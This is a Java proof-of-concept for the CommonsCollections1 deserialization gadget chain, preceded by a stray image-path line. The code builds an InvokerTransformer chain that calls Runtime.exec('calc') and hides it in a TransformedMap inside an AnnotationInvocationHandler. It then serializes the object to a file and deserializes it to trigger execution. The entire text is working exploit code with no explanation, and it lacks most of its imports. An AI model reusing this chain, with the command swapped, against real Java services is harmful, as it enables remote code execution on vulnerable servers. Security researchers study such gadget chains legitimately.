 ```java
import java.util.Map;

public class CommonsCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new String[]{"calc"}),};
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
       	InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);

        FileOutputStream barr = new FileOutputStream("11.ser");
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        System.out.println(barr);

        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("11.ser"));
        Object o = (Object) ois.readObject();
    }
}
```

